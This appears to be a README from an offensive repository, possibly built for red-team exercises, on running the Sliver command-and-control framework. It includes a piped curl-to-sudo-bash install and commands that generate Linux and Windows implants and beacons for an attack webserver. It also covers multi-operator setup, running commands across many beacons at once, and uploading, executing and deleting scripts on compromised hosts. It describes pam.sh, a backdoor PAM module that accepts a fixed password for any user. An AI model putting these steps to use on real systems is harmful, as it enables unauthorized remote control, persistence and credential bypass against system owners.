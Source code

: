 # sliver
## Installation
On the attacker server, [install sliver](https://sliver.sh/docs?name=Getting+Started) and make sure the service is started:

```shell
curl https://sliver.sh/install|sudo bash
sudo systemctl status sliver
```

## Implants
Sliver implants can be generated following [these instructions](https://sliver.sh/docs?name=Getting+Started), or in short:

Start sliver (inside the root directory of this repository):
```shell
sliver
```

Start a listener for the implants:
```shell
sliver > mtls
```

Generate the implants:
```shell
sliver > generate --os linux --mtls <SERVER IP> --save payloads/sliver
sliver > generate beacon --os linux --mtls <SERVER IP> --save payloads/sliver_beacon
sliver > generate --os windows --mtls <SERVER IP> --save payloads/sliver.exe
sliver > generate beacon --os windows --mtls <SERVER IP> --save payloads/sliver_beacon.exe
```
This should save the files in the [payloads](./payloads/) directory so they can be served by the  temporary attack webserver.

You'll see a message appear in the sliver console when a new session or beacon is established:
```shell
[*] Session e1839038 SCRAWNY_BOXSPRING - 192.168.122.77:47848 (ubuntu) - linux/amd64 - Fri, 26 Jul 2024 18:28:51 EDT

sliver > sessions

 ID         Transport   Remote Address         Hostname   Username    Operating System   Health  
========== =========== ====================== ========== =========== ================== =========
 e1839038   mtls        192.168.122.77:47848   ubuntu     chewbacca   linux/amd64        [ALIVE] 
```

Connect to sessions or beacons using their ID (can be abbreviated):
```shell
sliver > use e18

[*] Active session SCRAWNY_BOXSPRING (e1839038)

sliver (SCRAWNY_BOXSPRING) > whoami

Logon ID: chewbacca
```

You can also type `use` without any arguments to pull up an interactive selector.

## Multiplayer
Sliver supports a [multiplayer](https://sliver.sh/docs?name=Multi-player+Mode) mode which allows multiple users to remotely authenticate to the sliver server and interact with it. You'll need to generate a config for each user. To do so, start the server management interface:

```shell
sudo /root/sliver-server
```

Then, create the configs:
```shell
[server] sliver > new-operator --name <USERNAME> --lhost <SERVER_IP>
```

This will save the user configuration file in your home directory. SCP or otherwise transfer this file over to the relevant user.

To use this config, on your personal machine, download the latest releases of the [official sliver](https://github.com/BishopFox/sliver/releases) client and the [sliver-automate](https://github.com/infosecwatchman/sliver-automate/releases) client. Once downloaded, run either of the clients (depending on what you want to do) and pass the config file as an argument:
```shell
sliver-automate -config USER_SERVER_IP.cfg
```
See the section below for more info on how to use `sliver-automate`.

## Automate
`sliver-automate` is a custom sliver client designed to make interacting with multiple sessions at a time easier. It offers additional commands that make this process easier than it is with the official client.

To interact with multiple beacons:
```
sliver-automate > interact beacon
sliver-automate > execute <COMMAND>
```

## Scripts
Scripts inside of this directory are meant to be run inside of sliver sessions (not by `attack.py` sessions). These scripts don't work well in automated shells for one reason or another, but they work well in sliver. To run them, while inside of a sliver session or beacon:

```shell
sliver (EMBARRASSED_PANIC) > cd /tmp
sliver (EMBARRASSED_PANIC) > upload sliver/scriptname.sh
sliver (EMBARRASSED_PANIC) > chmod scriptname.sh 777
sliver (EMBARRASSED_PANIC) > execute scriptname.sh
sliver (EMBARRASSED_PANIC) > rm scriptname.sh
```

### pam.sh
This script adds a malicious PAM module that allows any user to authenticate using the password "motobook".
